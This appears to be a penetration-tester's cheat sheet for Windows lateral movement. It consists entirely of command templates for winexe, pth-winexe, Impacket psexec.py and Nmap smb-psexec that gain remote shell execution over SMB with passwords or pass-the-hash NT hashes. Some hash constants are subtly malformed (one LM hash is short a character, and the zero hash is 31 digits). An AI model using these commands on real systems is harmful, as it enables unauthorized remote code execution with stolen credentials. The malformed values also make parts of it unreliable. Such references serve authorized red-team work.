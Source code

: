 # Unix Shell

Search Tag(s): #lateral-movement #psexec #impacket #windows

## Samba Suite Utils

`$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>`

- Pass the Hash

`$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>`

## Impacket

`$ psexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <LM>:<NT> [-codecs <codec>]

$ psexec.py <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ psexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>

$ psexec.py <domain_name>/<username>@<IP> -hashes :<NT>
```

## Nmap

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>

$ sudo nmap -p U:137,T:139 -Pn -sUS --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>'
```